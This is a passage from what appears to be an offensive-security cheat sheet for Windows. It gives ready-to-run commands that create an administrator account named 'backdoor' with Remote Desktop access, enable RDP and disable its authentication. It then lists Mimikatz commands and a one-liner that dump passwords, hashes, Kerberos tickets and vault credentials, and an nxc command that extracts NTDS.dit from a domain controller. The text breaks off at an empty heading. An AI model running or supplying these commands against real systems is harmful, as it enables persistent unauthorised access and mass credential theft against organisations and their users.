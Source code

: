 Try 2:
```
:: Create user and grant RDP rights
net user backdoor NewPassword! /add
net localgroup administrators backdoor /add
net localgroup "Remote Desktop Users" backdoor /add

:: Enable RDP (correct key) and firewall
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes

:: Ensure the service is running
sc config TermService start= auto
sc start TermService

# Enable PTH
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0 /f
```

## Mimikatz

```
.\mimikatz.exe 

#Enable SeDebugPrivilege and elevate privileges to SYSTEM privilege::debug 
token::elevate 

#Extract plaintext passwords and password hashes from all available sources 
sekurlsa::logonpasswords 

#Extract the NTLM hashes from the SAM 
lsadump::sam

lsadump::secrets
sekurlsa::logonpasswords
sekurlsa::tickets

#One Liner
.\mimikatz.exe "privilege::debug" "token::elevate" "log" "lsadump::sam /patch" "lsadump::sam" "sekurlsa::msv" "lsadump::secrets" "lsadump::lsa" "lsadump::lsa /patch" "lsadump::cache" "sekurlsa::logonpasswords full" "sekurlsa::ekeys" "sekurlsa::dpapi" "sekurlsa::credman" "vault::list" "vault::cred /patch" "exit"
```

## Domain Admin NTDS.dit
```
nxc smb <dcip> -u <user> -p <password> -d <domain> --ntds
```

## Dump LSASS SAM LSA
